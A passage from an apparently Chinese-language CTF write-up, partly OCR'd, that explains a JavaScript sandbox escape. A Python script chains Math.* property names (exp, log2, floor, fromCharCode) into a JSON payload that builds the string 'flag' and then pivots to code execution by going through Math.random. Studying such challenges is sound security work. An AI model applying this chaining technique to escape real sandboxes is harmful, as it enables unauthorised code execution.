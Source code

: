 ```python
        else:
            array_res.append("Math.floor")
    times = len(res)-1

    for i in range(times):
        array_res.append("Math.exp")
        array_res.append("Math.log2")
        if res[i+1].startswith('Math.ceil'):
            array_res.append("Math.ceil")
        else:
            array_res.append("Math.floor")
    array_res.append("Math.sin.name.constructor.fromCharCode")
    return array_res


a = []
res = convert_the_target_num(150, a)
# print(res)
each_res = convert_to_array(res)

payload = "flag"
starts = ["Math.seeds.pop"] * 5

for i in payload:
    starts += convert_to_array(convert_the_target_num(ord(i), []))
    starts += ["Math.seeds.push"]

starts += ["Math.abs.name.toLowerCase", "Math.seeds.join"]

print(json.dumps(starts))

# print(convert_to_js(res))


```
![在这里插入图片描述](https://img-blog.csdnimg.cn/adf2d046c04c4b929bc16d50a285fa89.png)

可以看到构建的flag的四个字母都出来了。

最后最后一步，去掉abs，并选择代码执行。

去abs怎么去？相信大家已经想到了。

我们观察random：

```php
this.newMath.random = function () {
            this.next = this.next * 3 + 1234;
            return (this.next / 65536) % 32767;
        };
```

懂了吧~ 所以我们把Math.abs.name.toLowerCase换成Math.random.name.toLowerCase就行了。
